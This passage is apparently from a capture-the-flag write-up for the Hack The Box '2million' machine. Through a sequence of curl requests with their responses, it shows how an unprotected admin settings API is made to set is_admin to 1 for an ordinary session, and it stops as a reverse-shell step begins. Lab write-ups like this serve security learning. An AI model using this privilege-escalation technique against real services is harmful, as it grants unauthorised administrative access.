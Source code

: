 <p>The put request also seems very promising so let's test it. We get the following output:</p>

<pre>
curl -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1"                                                                       
{"status":"danger","message":"Invalid content type."}
</pre>

<p>The response indicated that we sent an invalid content type and the response is in json. So, let's add the Content-Type header for JSON in our request. Progress: We get another response!</p>

<pre>
curl -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1" -H "Content-Type: application/json"
{"status":"danger","message":"Missing parameter: email"}
</pre>

<p>Let's do as the response says and at the email. Then we get the following:</p>

<pre>
curl -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1" -H "Content-Type: application/json" -d '{"email":"lol@x.com"}'
{"status":"danger","message":"Missing parameter: is_admin"}
</pre>

<p>Let's do the same again and thus add the is_admin to our request. (is_admin needs to be 0 or 1, you will notice when you do it wrong as the response will tell you). We get the following result:</p>

<pre>
curl -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1" -H "Content-Type: application/json" -d '{"email":"lol@x.com", "is_admin":1}'
{"id":16,"username":"Aion","is_admin":1}
</pre>
<p>We are now admin. This can be double checked using this curl command:</p>

<pre>
curl http://2million.htb/api/v1/admin/auth -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1"
{"message":true}
</pre>

<h2>Step 4: Gaining a reverse shell</h2>
<p>So whats the point of being admin now? Nothing seems to change on the dashboard. This was the trickiest part of the box to figure out. The only thing we haven't used is the POST request under admin:</p>
